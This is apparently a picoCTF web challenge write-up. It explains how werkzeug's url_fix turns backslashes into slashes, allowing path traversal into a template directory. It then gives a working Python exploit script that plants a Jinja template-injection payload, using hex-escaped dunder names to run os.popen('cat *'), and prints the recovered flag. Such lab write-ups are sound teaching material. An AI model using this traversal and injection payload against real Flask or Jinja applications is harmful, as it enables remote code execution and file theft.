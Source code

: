 ```yaml
---
ai_date: 2025-04-27 05:30:00
ai_summary: Python path traversal and template injection vulnerability exploited to read files and retrieve the flag
ai_tags:
  - path-traversal
  - template-injection
  - rce
created: 2024-11-16T19:45
updated: 2025-07-14T09:46
---
```


Python path traversal + template injection.

```python
from werkzeug.urls import url_fix
```

`url_fix()` converts backslashes to slashes, I have encountered this before.

Which means we can path traverse using backslashes, to add files to the `../templates/errors/` directory.

Afterwards we can exploit the template include to include our custom templates.

```html
{% include "errors/" + error + ".html" ignore missing %}
```

```python
import requests
t = "https://notepad.mars.picoctf.net"
payload = "{{request['application']['\\x5f\\x5fglobals\\x5f\\x5f']['\\x5f\\x5fbuiltins\\x5f\\x5f']['\\x5f\\x5fimport\\x5f\\x5f']('os')['popen']('cat *')['read']()}}"

p = ("../templates/errors/flag").ljust(128, "a")


url = requests.post(t+"/new", data={"content": p.replace("/", "\\")+".html"+payload}).url
error = url.split("/")[-1][:-len(".html")]

print(requests.get(t+"/", params={"error": error}).text)
```

```flag
picoCTF{styl1ng_susp1c10usly_s1m1l4r_t0_p4steb1n}
```